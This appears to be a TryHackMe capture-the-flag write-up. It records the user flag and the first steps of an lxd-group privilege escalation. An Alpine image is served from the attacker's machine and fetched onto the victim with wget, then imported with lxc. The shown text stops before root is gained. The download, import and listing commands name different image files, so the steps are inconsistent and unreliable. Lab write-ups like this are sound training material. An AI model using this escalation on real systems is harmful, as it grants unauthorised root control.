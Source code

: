 ### What is the value of the user.txt flag?
- **Answer:** THM{IDENTITY_DISC_RECOGNISED}
- **Steps to Reproduce:** 
    ```bash
    flynn@light-cycle:~$ ls
    user.txt
    flynn@light-cycle:~$ cat user.txt 
    THM{IDENTITY_DISC_RECOGNISED}
    ```
---

### Check the user's groups. Which group can be leveraged to escalate privileges? 
- **Answer:** lxd
- **Steps to Reproduce:** 
    ```bash
    flynn@light-cycle:/var/www/TheGrid/includes$ id
    uid=1000(flynn) gid=1000(flynn) groups=1000(flynn),109(lxd)
    ```
---

### Abuse this group to escalate privileges to root.
- **Steps to Reproduce:** 
 - In your attack machine:
    ```bash
    root@kali: git clone https://github.com/lxd-images/alpine-3-7-apache-php5-6
    Cloning into 'alpine-3-7-apache-php5-6'...
    remote: Enumerating objects: 9, done.
    remote: Total 9 (delta 0), reused 0 (delta 0), pack-reused 9
    Receiving objects: 100% (9/9), 12.41 MiB | 7.13 MiB/s, done.
    Resolving deltas: 100% (1/1), done.
    root@kali: cd alpine-3-7-apache-php5-6/
    root@kali:~/alpine-3-7-apache-php5-6# ls
    alpine-3-7-apache-php5-6.tar.bz2.000  image.yaml  import.sh  README.md
    root@kali:~/alpine-3-7-apache-php5-6# python -m SimpleHTTPServer
    Serving HTTP on 0.0.0.0 port 8000 ...
    ```

 - In the victim machine:
    ```bash
    flynn@light-cycle:/$ cd tmp/
    flynn@light-cycle:/tmp$ wget <YOUR_IP>:8000/alpine-3-7-apache-php5-6.tar.bz2.000
    --2020-12-25 12:59:22--  http://<YOUR_IP>:8000/alpine-3-7-apache-php5-6.tar.bz2.000
    Connecting to <YOUR_IP>:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 13019149 (12M) [application/octet-stream]
    Saving to: ‘alpine-3-7-apache-php5-6.tar.bz2.000’

    alpine-3-7-apache-p 100%[===================>]  12.42M  3.28MB/s    in 7.3s    

    2020-12-25 12:59:30 (1.69 MB/s) - ‘alpine-3-7-apache-php5-6.tar.bz2.000’ saved [13019149/13019149]
    flynn@light-cycle:/tmp$ lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias dsimage
    flynn@light-cycle:/tmp$ lxc image list
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
    |  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE   |         UPLOAD DATE          |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+
    | Alpine  | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB  | Dec 20, 2020 at 3:51am (UTC) |
    +---------+--------------+--------+-------------------------------+--------+---------+------------------------------+